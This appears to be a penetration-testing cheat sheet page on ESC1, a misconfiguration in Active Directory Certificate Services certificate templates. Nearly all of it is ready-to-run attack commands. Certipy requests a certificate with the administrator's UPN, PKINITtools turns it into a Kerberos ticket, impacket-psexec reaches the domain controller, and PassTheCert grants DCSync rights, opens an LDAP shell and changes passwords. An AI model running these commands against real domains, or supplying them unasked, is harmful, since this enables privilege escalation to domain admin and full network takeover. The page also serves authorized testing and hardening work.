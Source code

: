 # ESC1

**ESC1** is a vulnerability where **a low-privileged user** in a Windows domain can **abuse misconfigured certificate templates** to get a certificate that lets them **impersonate another user — even a domain admin**.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Get the .pfx cert

{% code overflow="wrap" %}
```bash
#To specify a user account in the SAN
certipy req -ca 'ca_name' -dc-ip 'DC_IP' -u 'USER' -p 'PASS' -template 'ESC1' -target 'FQDN' -upn 'administrator@DOMAIN.local'

certipy req -u "USER@DOMAIN.local" -p 'PASS' -dc-ip 'DC_IP' -target "FQDN" -ca 'ca_name' -template 'vulnerable_template' -upn 'administrator@DOMAIN.local'
```
{% endcode %}

{% hint style="info" %}
The `$ADCS_HOST` target must be a FQDN (not an IP).
{% endhint %}

## Use pfx cert

### Pass-the-Ticket to auth

Once we have the .pfx file we can use the Pass-the-Ticket technique to get TGT and impersonate the domain admin user.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>git clone https://github.com/dirkjanm/PKINITtools
</strong>
<strong>
</strong><strong>python getttgtpkinit.py &#x3C;DOMAIN>/administrator -cert-pfx /PATH/TO/administrator.pfx PKINIT-Administrator.ccache
</strong>
export KRB5CCNAME=PKINIT-Administrator.ccache

impacket-psexec administrator@&#x3C;DC_IP> -k -no-pass

</code></pre>



### Pass-the-Cert to auth

Another alternative is with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py) (Python) which can be used to conduct multiple techniques like elevate a user for [dcsync.md](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) or change password for a specific user.

{% code overflow="wrap" %}
```bash
# extract key and cert from the pfx
certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"
certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

# elevate a user for DCSYNC with passthecert.py
git clone https://github.com/AlmondOffSec/PassTheCert

passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate

# remote code execution
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain DOMAIN.local -dc-ip IP 
```
{% endcode %}

When we have a ldap-shell we can change a user passowrd using the `change_password` function.



## Resources

{% embed url="https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc1/#elementor-toc__heading-anchor-9" %}
